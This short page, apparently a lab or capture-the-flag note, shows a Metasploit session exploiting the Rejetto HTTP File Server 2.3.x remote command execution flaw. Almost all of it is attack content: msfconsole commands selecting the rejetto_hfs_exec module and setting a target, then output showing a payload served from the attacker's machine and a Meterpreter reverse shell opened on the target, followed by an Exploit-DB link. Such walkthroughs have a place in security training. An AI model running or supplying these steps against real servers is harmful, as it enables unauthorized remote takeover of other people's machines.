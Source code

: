 # Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)

```
msfconsole -q
msf6 > use exploit/windows/http/rejetto_hfs_exec
msf6 > set RHOSTS 10.2.28.136
msf6 > exploit

[*] Started reverse TCP handler on 10.10.18.4:4444 
[*] Using URL: http://0.0.0.0:8080/PfU6IywIkJIZ
[*] Local IP: http://10.10.18.4:8080/PfU6IywIkJIZ
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /PfU6IywIkJIZ
[*] Sending stage (175174 bytes) to 10.2.28.136
[!] Tried to delete %TEMP%\qgxnN.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.18.4:4444 -> 10.2.28.136:49731) at 2024-08-07 13:58:26 +0530
[*] Server stopped.

meterpreter >
```

Exploit-database : https://www.exploit-db.com/exploits/39161